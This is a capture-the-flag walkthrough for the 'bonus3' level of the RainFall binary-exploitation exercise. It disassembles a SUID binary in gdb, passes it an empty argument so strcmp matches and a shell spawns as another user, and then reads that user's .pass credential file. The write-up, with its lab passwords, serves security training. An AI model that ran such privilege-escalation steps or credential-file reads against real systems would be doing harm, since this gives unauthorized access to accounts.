 Login as `bonus3`.
```shell
┌──$ [~/42/2022/rainfall]
└─>  ssh 192.168.0.25 -p 4242 -l bonus3
bonus0@192.168.0.25's password: 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/user/bonus3/bonus3
```
A `SUID` executable is located in the home directory.
```shell
bonus3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 end users 5595 Mar  6  2016 bonus3
```
It first open `/home/user/bonus3/bonus3` file in read only mode
```gdb
   [...]
   0x08048502 <+14>:	mov    edx,0x80486f0 // "r"
   0x08048507 <+19>:	mov    eax,0x80486f2 // "/home/user/end/.pass"
   0x0804850c <+24>:	mov    DWORD PTR [esp+0x4],edx
   0x08048510 <+28>:	mov    DWORD PTR [esp],eax
   0x08048513 <+31>:	call   0x8048410 <fopen@plt>
   [...]
```
Then checks if return `fd` is not equals to 0 and that binary was run with one argument. Otherwise it return -1.
```gdb
   0x08048533 <+63>:	cmp    DWORD PTR [esp+0x9c],0x0
   [...]
   0x0804853d <+73>:	cmp    DWORD PTR [ebp+0x8],0x2
```
Once, preliminary checks are passed it calls `fread()` which reads 66 bytes (length of flag) from the stream pointed to by `fd` storing them at the location pointed by `edx`.
```gdb
   [...]
   0x0804854d <+89>:	lea    eax,[esp+0x18]
   0x08048551 <+93>:	mov    edx,DWORD PTR [esp+0x9c]
   0x08048558 <+100>:	mov    DWORD PTR [esp+0xc],edx
   0x0804855c <+104>:	mov    DWORD PTR [esp+0x8],0x42
   0x08048564 <+112>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804856c <+120>:	mov    DWORD PTR [esp],eax
   0x0804856f <+123>:	call   0x80483d0 <fread@plt>
   [...]
```
Then, `av[1]` is compared to stored bytes on `$esp+0x9c` and if two strings are equals a shell is executed.
```gdb
   [...]
   0x080485c7 <+211>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485ca <+214>:	add    eax,0x4
   0x080485cd <+217>:	mov    eax,DWORD PTR [eax]
   0x080485cf <+219>:	mov    DWORD PTR [esp+0x4],eax
   0x080485d3 <+223>:	lea    eax,[esp+0x18]
   0x080485d7 <+227>:	mov    DWORD PTR [esp],eax
   0x080485da <+230>:	call   0x80483b0 <strcmp@plt>
   [...]
```

Exploit and log on to the next level.
```sh
bonus3@RainFall:~$ ./bonus3 "$(echo -en '\x00')"
$ id
uid=2013(bonus3) gid=2013(bonus3) euid=2014(end) egid=100(users) groups=2014(end),100(users),2013(bonus3)
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ su end
Password:
end@RainFall:~$ ls -l
total 4
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
end@RainFall:~$ cat end
Congratulations graduate!
```
